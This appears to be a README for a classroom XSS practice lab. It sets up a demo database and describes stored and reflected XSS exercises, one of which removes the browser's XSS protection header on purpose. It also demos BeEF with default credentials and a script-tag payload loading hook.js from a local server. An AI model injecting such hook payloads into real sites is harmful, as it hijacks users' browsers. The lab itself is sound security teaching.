 # XSS Practice Setup

## Self Practice Exercises

```sql
create database xssdemo;

CREATE TABLE data_store (
  id INT NOT NULL AUTO_INCREMENT,
  value VARCHAR(256) DEFAULT NULL,
  PRIMARY KEY (id)
);
```

### Exercises

1. Exercise 1
Exercise 1 consist of 2 php files, namely: xss-1a.php and xss-1b.php. This is a practice for stored XSS attack. xss-1a.php will save the user input into the database. xss-1b.php will display the results of the input.

2. Exercise 2
Exercise 2 consist of 2 php files, namely: xss-2a.php and xss-2b.php. This is a practice for reflected XSS attack. The difference lies in the removal of response header for XSS protection flag. This flag will tell the browser to ignore or disable the in-bulit XSS protection mechanism.

## In Class Demo - Beef

1. Start BeEF and login using their default credentials (beef:beef). Visit: http://127.0.0.1:3000/ui/panel

2. Inject the hook script payload into the vulnerable web application. 
```js
<script src="http://127.0.0.1:3000/hook.js"></script>
```

_Some of the payloads may not work because the browser is no longer vulnerable to that particular payload._